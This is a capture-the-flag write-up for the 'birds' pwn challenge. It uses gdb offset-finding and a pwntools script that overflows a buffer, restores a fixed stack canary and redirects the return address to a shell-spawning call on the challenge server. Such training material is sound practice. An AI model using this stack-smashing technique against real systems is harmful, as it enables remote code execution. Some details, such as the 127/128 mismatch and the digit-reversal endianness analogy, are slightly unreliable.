 \##### pwn challenge  
Required Tools:   
\- checksec  
\- gdb debugger  
\- Linux operating system or Windows Subsystem for Linux (WSL)  
\- pwntools  
  
For this challenge, all that we need to do is find the distance between the buffer, the canary, and the return address at the end of main. After that, we just need to understand pwntools, how stack memory works, and how assembly works, and we can write a quick exploit script in python to get shell access to the remote server and print the flag.  
  
\### 1.  Finding all of our needed offsets  
\- We will use gdb to debug the \*\*birds\*\* executable. We will set two breakpoints. One at the instruction that takes place right after the buffer is filled, and another right on the RET instruction.  
\- Because this program is so simple you may be able to tell where to place both of these breakpoints by running the command \*\*disas main\*\*   
!\[\[main disassembly.png\]\]  
  
We can go ahead and place our breakpoints  at the RET instruction, and at the cmpl assembly instruction  
\`\`\`  
(gdb) b \*0x40125d  
Breakpoint 1 at 0x40125d                                                                                                                                 
(gdb) b \*0x401285  
Breakpoint 2 at 0x401285   
\`\`\`  
  
If you want to make sure you are understanding correctly and are placing your breakpoints at the right spot, you can open up the executable in ghidra or IDA pro and compare memory addresses with their places in the decompiled C code.  
  
After analyzing the executable, we find \*\*main\*\* in the symbol tree under functions. We can see that, although gdb and Ghidra disassembled the birds executable a little differently, that we have the correct position for both the start of the if statement, and the return address for main  
!\[\[ghidra-1.png\]\]  
  
While we are in gdb and ghidra, let us also figure out the address of the call to run the shell. We can skip straight to this address in memory to avoid having to call a gadget.  
  
Let's first disassemble win() in gdb, find the address we think is the system call to run the shell, and then verify we are correct with ghidra  
 !\[\[win disassembly.png\]\]  
It appears that the system call in \*\*win\*\* happens at 0x4011e6 in memory. And we can verify this in ghidra by finding \*\*win\*\* in the Symbol Tree  
!\[\[win breakpoint.png\]\]  
  
\*\*WATCH OUT!\*\*  
  
If we assumed that this memory address is where we should jump to in order to execute our shell system call, we would be mistaken! We have to remember that function calls require setup in assembly. The system function call requires an argument  (a command). Recall that in linux x86-64 assembly, RDI is a functions first argument, followed by RSI, RDX , RCX, and so on. This means that RDI must be filled with the system command '/bin/sh' before the system call, otherwise the function call will fail or behave unpredictably.   
  
From looking at ghidra's visual debugger, we can see that inside of the IF statement there are 2 lines of preparation before the system call is made. This means we should override main's return address with \*\*0x4011dc\*\* , which will bring us right to our shell system call.  
!\[\[Assembly Preparation.png\]\]  
  
Ok, so now it's time to run birds with the breakpoints we have set.   
1\. On our first breakpoint, we are trying to determine the distance between the buffer and the canary  
2\. On our second breakpoint, we are trying to find the return address of main, so that we can find the distance between the canary and the return address.  
  
When we run birds in gdb, we are prompted to fill the buffer. Go ahead and fill the buffer with 64 characters of any kind. Each character is a byte, that's why the buffer size and the character count is the same. In my debugging session I put in 64 A's.  
  
Feel free to copy/paste  
  
\`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA  
  
Once you press enter, you will be stopped at our first breakpoint.   
  
At this breakpoint we want to examine the stack to see where the buffer ends and the canary begins. To inspect the stack, run the below command:  
\*\*x/127wx $rsp\*\*  
!\[\[stack-screenshot.png\]\]  
\- Lets break down the above GDB command:  
    - x/ -> examine -> used to inspect memory  
    - 128 -> Specifies the number of units to examine, in this case, 128 units  
    - w -> Stands for "word", which means each unit is 4 bytes / 32 bits  
    - x -> Specifies the format, which in this case is hexadecimal  
    - $rsp Refers to the stack pointer register  
    - All of the A's here display as 0x41, because the ASCII representation of A is 0x41 in hexadecimal (65 in decimal)  
  
Since each group of data displayed here is 4 bytes, we can tell that there are \*\*12 bytes of data\*\* in between the buffer and the canary  
  
Let's keep this screenshot in mind and continue to the next breakpoint. We can continue by typing \*\*c\*\*  
  
Once we break at the RET instruction, all we have to do is step one instruction forward and find the contents of RIP. Recall that RIP is the instruction pointer. Because we broke right before RET, if we step one instruction forward with the command \*\*stepi\*\*, the next instruction will be where we are returning to, AKA the return address of main.  
  
If we run the command \*\*info stack frame\*\*, we can find the contents of RIP , and try and find this address on the stack that we took a screenshot of before.  
!\[\[RIP Contents.png\]\]  
  
We found that the return address is 8 bytes away from the canary!  
  
![Stack Screenshot](stack-screenshot-Highlights.png)
  
We now know everything we need in order to write our pwntools script.  
  
We can take advantage of pwntools p32() and p64() functions to add our canary and return address data to the payload, as the data needs to be changed from big endian to little endian format in order for the CPU to read it properly.  
  
pwntools script:  
  
\`\`\`  
from pwn import \*  
  
\# -- PAYLOAD CREATION -- #  
payload = b"A"\*64  
payload += b"B" \* 12  
payload += p32(0xDEADBEEF)  
#payload += b"\\xef\\xbe\\xad\\xde" <- what the canary ends up as  
  
payload += b"C" \* 8  
payload+= p64(0x00000000004011dc)  
#payload += b"\\xdc\\x11\\x40\\x00\\x00\\x00\\x00\\x00" <- what the ret addr ends up as  
  
print(payload)  
  
\# ---------------------- #  
  
  
\# EXECUTABLE CONNECTION #  
  
\# If you are connecting to a local process, use the below  
  
#p = process('./birds')  
#p.sendline(payload)  
#p.interactive()  
  
\# If you are connecting to a remote server, use the below  
  
target\_host = "tjc.tf"  
target\_port = 31625  
  
conn = remote(target\_host, target\_port)  
conn.recvuntil("wrong!\\n")  
conn.sendline(payload)  
conn.interactive()  
  
\# --------------------- #  
\`\`\`  
  
Explanation of big -> little endian conversion  
  
Recall that in big endian format, numbers to the left are more significant than numbers on the right. Humans use big endian number formatting.  
  
In little endian format, numbers to the right are more significant than numbers to the left.  
  
For example, consider the big endian number 123. In little endian, that number would be written as 321. But they refer to the same value.  
  
gdb converts stack memory from little endian to big endian for readability purposes. But when we perform our buffer overflow attack, we have to make sure the data ends up on the stack in little endian format.  
  
However, each character/byte is represented with two hexidecimal digits. These two digits don't change order. !\[\[big-little-endian.png\]\]  
  
Putting the connection in interactive mode allows the user to run shell commands.#

